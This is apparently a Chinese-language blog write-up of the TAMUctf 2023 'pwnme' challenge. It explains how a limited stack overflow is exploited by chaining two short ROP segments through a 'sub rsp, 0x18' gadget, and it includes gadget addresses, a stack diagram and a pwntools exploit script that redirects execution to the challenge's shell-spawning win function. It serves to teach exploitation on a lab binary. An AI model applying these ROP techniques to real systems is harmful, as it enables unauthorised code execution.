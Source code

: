 ```yaml
---
layout: post
title: TAMUctf 2023 Pwnme - linked ROP chain
date: 2023-05-04 07:55:01
tags: pwn rop
---
```


当溢出长度过短无法完成完整的ROP时，一般会想到stack pivot，也就是在某个固定的、可控的地址处提前布置好ROP链，然后通过 `leave; ret` 或是 `xchg eax, esp` 等方法完成栈迁移。
但在本题中，我们没有机会往已知地址写入数据，溢出大小又有限制。官方给出的方法是：通过 `sub rsp, 0x18; call vul` 这个非常规gadget，将提前布置好的ROP chain放在栈的高位，从而完成ROP chain的链接，我管它叫linked ROP chain。

比赛时和前辈两人看这题看了几个小时，找gadget找了很久也没做出来。比赛结束后发现了两个版本的做法，分别是[官方的](https://github.com/tamuctf/tamuctf-2023/tree/master/pwn/pwnme)和[Chovid99师傅的](https://chovid99.github.io/posts/tamuctf-2023/#pwnme)的。官方的做法比较一般，并且和我们比赛时的思路完全一致（只是我们傻了没发现那个关键gadget），因此本文主要分析官方的做法。

<!-- more -->

题目给了两个binary：
- pwnme：什么函数都没有，只有一个main函数调用了libpwnme库的pwnme函数。
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
- libpwnme.so：pwnme函数，以及一个调用即get shell的win函数。
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

漏洞函数很朴实，就是一个简单的栈溢出：

```c
ssize_t pwnme()
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  setup();
  puts("pwn me");
  return read(0, buf, 0x48uLL);
}
```

我们的目标是调用win函数，但win函数位于libpwnme中，其地址是随机变化的。
我们ROP使用的gadget，要么来自于已知的地址，要么来自于经过partial overwrite的栈上已有的地址。
在这道题中，能够partial overwrite的只有__libc_start_main的返回地址，但这个地址和win函数差的很远（尽管它们的偏移是确定的值），需要爆破约12个bits才行。因此暂时放弃这种思路。

我们可以用到的gadget，只有pwnme binary中的gadget，然而这个binary除了调用pwnme的main函数之外，可以说啥都没有。GOT上除了__libc_start_main和pwnme就没有别的函数了。
不过，如果用心找找，还是能找到一些有用的gadget，我找到的如下：

```
0x000000000040118b : pop rdi ; ret
0x0000000000401191 : mov rax, qword ptr [rdi] ; ret

0x0000000000401189 : pop rsi ; pop r15 ; ret
0x00000000004011b2 : sub rax, rsi ; ret

0x0000000000401010 : call rax
0x000000000040109c : jmp rax

0x0000000000401016 : ret
```

用这些gadget我们可以取出GOT中pwnme的地址，然后加上一个偏移并执行，这样就可以执行位于pwnme-0x18位置的win函数。但问题在于，题目允许溢出0x48字节，也就是从返回地址算起一共6个栏位（0x30）可以填ROP gadget。但使用这些gadget需要8*8=0x40字节才能完成对于pwnme的调用。

我比赛时想到了两种思路：
1. 分多次ROP完成，想办法在前后两次ROP之间，保存第一次ROP的成果（比如尝试保存rax），存到不会改变的寄存器、栈上或者某个内存地址；
2. 减小rsp，这样就可以复用之前输入的、位于栈上高位的payload。

对于第一种思路，我们寻找了很久gadget，并没有发现能够用上的，因此不得不放弃。
对于第二种思路，我们寻找了很久gadget，只找到了一个很难使用的 `pop rsp`，以及一些 `sub rsp, 0x18; add rsp, 0x18` 这样完全没用的gadget。

但这个gadget其实就放在pwnme binary的main函数中：

![](https://i.imgtg.com/2023/05/04/Ck43t.png)

通过这个gadget，我们可以将payload的后一部分先写到栈上，然后返回到main函数中，借助 `sub rsp, 0x18` 来向低位延申栈，然后再把payload的前一部分写到栈上，覆盖返回到main的gadget，构造一条完整的ROP链，如图所示：

```
      │        │    │        │
      ├────────┤    ├────────┤
      │Overflow│    │ROP     │
      │0x30 MAX│    │Part II │
      │        │    │        │
─────►│─ ─ ─ ─ ┤    ├────────┤◄─────
      │ret_addr│    │ROP     │
      ├────────┤    │Part I  │ sub rsp, 0x18
pwnme │savedrbp│    │        │
stack ├────────┤    │        │
      │Buffer  │    │        │
      │0x10    │    │        │
      │        │    │        │
─────►└────────┘    │─ ─ ─ ─ ┤◄─────
                    │        │
                    ├────────┤
                    │savedrbp│ pwnme
                    ├────────┤ stack
                    │Buffer  │
                    │0x10    │
                    │        │
                    └────────┘◄─────
```

图中第一次溢出时，将ret_addr覆盖为main的接近开头处，之后地址高位的部分填充payload后一部分。
第二次溢出时，填充payload前一部分，注意要把跳转到main的那个gadget给覆盖掉，完成两段ROP chain的链接。

理论上，只要从返回地址数起，能够溢出0x20字节，就可以完成上述操作。
如果将这种操作重复多次，就构造任意长度的ROP chain。

```python
def pwn():
    payload = b'a'*0x18 + pack(0x401199)
    payload += pack(0x18) + pack(0)
    payload += pack(0x4011b2)
    payload += pack(0x401016)
    payload += pack(0x401010)
    io.sendafter(b"pwn", payload)

    payload = b'a' * 0x18 + pack(0x40118b) + pack(elf.got["pwnme"])
    payload += pack(0x401191)
    payload += pack(0x401189)
    io.sendafter(b"pwn", payload)

    io.interactive()
```

另外，Chovid99师傅的解法也十分巧妙，是利用 `add byte ptr [rbp - 0x3d], bl` gadget修改pwnme binary中的GOT低位，来把pwnme地址变成win的地址。也很巧妙，学习！
